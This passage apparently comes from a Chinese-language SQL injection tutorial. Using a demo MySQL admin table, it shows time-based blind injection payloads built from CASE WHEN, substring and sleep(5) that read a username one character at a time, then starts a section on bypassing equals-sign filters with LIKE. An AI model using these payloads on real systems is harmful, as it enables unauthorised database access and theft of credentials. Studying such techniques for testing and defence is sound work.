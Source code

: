 

```plain
// 演示数据
mysql> SELECT * FROM test.tdb_admin LIMIT 1 OFFSET 0;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```



读取某库某表某字段第一个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT 字段名 FROM 库名.表名 LIMIT 1 OFFSET 0) from 1 for 1)='a') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 1 for 1)='a') then sleep(5) else 0 end;
Empty set (5.00 sec)
```



读取某库某表某字段第二个字: select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;



```plain
mysql> select * from tdb_goods where goods_id=1 and case when(substring((SELECT username FROM test.tdb_admin LIMIT 1 OFFSET 0) from 2 for 1)='d') then sleep(5) else 0 end;
Empty set (5.00 sec)
```

# 五、case()加like函数绕过等号（=）

# 0x00 概要



不允许 等于号( = ) 出现时的注入方法



# 0x01 测试数据



```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```
